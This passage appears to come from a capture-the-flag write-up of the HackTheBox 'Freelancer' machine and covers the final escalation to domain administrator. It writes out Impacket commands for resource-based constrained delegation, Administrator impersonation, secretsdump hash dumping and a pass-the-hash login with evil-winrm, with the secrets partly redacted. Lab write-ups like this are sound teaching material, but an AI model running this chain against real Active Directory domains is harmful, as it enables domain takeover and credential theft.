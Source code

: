I then configured TEST$ to be able to impersonate other users when accessing services on the DC.

```
impacket-rbcd -delegate-from 'TEST$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN..............'        
```                         

Now I need a service ticket impersonating the administrator account. Due to the aforementioned time disparity, I'll need to use faketimelib for this as well. 

```
`faketime -f +5h impacket-getST -spn cifs/DC.freelancer.htb -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/TEST$:test -k -no-pass`
```  

I get a service ticket back for CIFS, and add it to my environment variable.

```
export KRB5CCNAME=Administrator@cifs_DC.freelancer.htb@FREELANCER.HTB.ccache  
```

CIFS operates over SMB, so I'll need to authenticate to another service that operates over SMB. I tried psexec to begin with, again using faketimelib to account for the time difference. 

```
faketime -f +5h impacket-psexec freelancer.htb/Administrator@DC.freelancer.htb -k -no-pass 
```

This should have worked, and I'm not really sure why it didn't. Nevertheless, I persisted. I tried a different Impacket module, secretsdump, to see if I could get the NTLM hash for the administrator account, and sure enough, it worked just fine. I'm still not sure why this method worked over the other, but all's well that ends well!

```
faketime -f +5h impacket-secretsdump freelancer.htb/Administrator@DC.freelancer.htb -k -no-pass
```

```
Administrator:500:aad3b43............:0039318f...............
```

With the NT hash I can authenticate to the administrator account using evil-winrm.

```
evil-winrm -i freelancer.htb -u administrator -H '0039318f...................'
```

Lastly, I navigate to the desktop directory and type the root.txt file. 

Happy hacking everyone! 